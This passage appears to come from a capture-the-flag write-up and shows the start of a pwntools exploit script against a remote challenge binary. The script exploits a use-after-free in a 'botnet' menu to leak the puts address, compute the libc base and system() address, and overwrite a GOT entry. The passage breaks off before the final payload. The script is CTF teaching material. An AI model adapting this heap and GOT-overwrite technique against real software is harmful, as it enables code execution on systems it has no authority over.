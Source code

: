 The final exploit is:
```python
from pwn import *

context(os="Linux", arch="amd64")

#p = gdb.debug('./chall', 'b *0x00401469')
p = remote('cyberphant0m.sas.hackthe.space', '65432')

# Addresses used in the exploit 
#this one from ghidra
puts_got = 0x4041b0



def allocate_bot(bot_id, length, identifier):
    p.sendline(b'1')  # add bot
    p.sendline(str(bot_id).encode())  # bot id
    p.sendline(str(length).encode())  # bot length
    p.sendline(identifier)  # bot identifier
    output = p.recvuntil(f'Added botnet to index {bot_id}\n'.encode())
    print(output.decode())


def deallocate_bot(bot_id):
    p.sendline(b'2')  # remove bot
    p.sendline(str(bot_id).encode())  # bot id
    output = p.recvuntil(f'Botnet index (0-9): Removed index {bot_id}\n'.encode())
    print(output)


def call_atttack_function_to_leak_data(bot_id):
    p.sendline(b'3')
    output = p.recvuntil(f'ID:{bot_id}\n'.encode())
    print(output)
    leaked_L_shifted = p.recvline().strip()[:8].ljust(8, b'\x00')
    leaked_L_shifted = u64(leaked_L_shifted)
    return leaked_L_shifted


def change_deallocated_bot(bot_id, address, payload):
    p.sendline(b'-1')  # change deallocated bot
    p.sendline(str(bot_id).encode())
    p.send(p64(address))
    p.sendline(payload)
    p.sendline(b'aaa')  # to avoid maintenance variable set to 1
    output = p.recvuntil(b'Invalid option\n')
    print(output.decode())


def calculate_libc_base(leaked_puts):
    puts_offset = 0x7af40
    libc_base = leaked_puts - puts_offset
    return libc_base


def calculate_system_address(libc_base):
    # readelf -s libc.so.6 | grep system
    system_offset = 0x4ebf0
    system_real_address = system_offset + libc_base
    return system_real_address


# allocation of 3 bots
```